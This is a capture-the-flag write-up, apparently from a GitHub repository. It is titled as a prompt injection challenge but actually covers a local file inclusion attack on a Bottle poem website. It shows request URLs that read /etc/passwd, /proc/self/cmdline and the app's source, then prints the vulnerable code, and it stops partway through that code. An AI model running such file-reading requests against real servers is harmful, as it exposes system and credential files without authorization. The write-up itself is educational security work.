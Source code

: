 # Challenge 4: Prompt Injection
Question:I have this collection of poems and whenever I am happy I have a look at them, hope you like it!

![Main Page](https://github.com/PSrujanReddy/OnlineCTF-Writeups/assets/118731259/e6dd751f-acd7-4a08-8db7-277114794bdd)


We are given a link to a website and no source code. Looking at the bottle poem website, we find a lot of links to poems:
```
<ul>
    <li><a class="..." href="/show?id=spring.txt">Spring</a></li>
    <li><a class="..." href="/show?id=Auguries_of_Innocence.txt">Auguries_of_Innocence</a></li>
    <li><a class="..." href="/show?id=The_tiger.txt">The_tiger</a></li>
</ul>
```

![2](https://github.com/PSrujanReddy/OnlineCTF-Writeups/assets/118731259/b9f9bf04-6482-4514-9103-3e4b14039f92)


The `id` parameter looks vulnerable to a local file inclusion attack, so lets test it out by going to a url with a local 
file name in it, like ```http://ch681363157615.ch.eng.run//show?id=/etc/passwd```. This works!

After trying other file locations and known file names without success, I had to find a more reliable way to find the
sourcecode of this website. That’s when I remembered the ```/proc``` filesystem.

Using the file ```/proc/self/cmdline```, we can find out that the commmand currently being executed is the following:

`python3 -u /app/app.py`

By visiting ```http://ch681363157615.ch.eng.run/show?id=/app/app.py``` we get the webserver source:

![1](https://github.com/PSrujanReddy/OnlineCTF-Writeups/assets/118731259/a92a39b9-3658-44b6-ad8d-26d03afbbbcf)

The source Code:

```
from bottle import route, run, template, request, response, error
from config.secret import Vishwa
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
```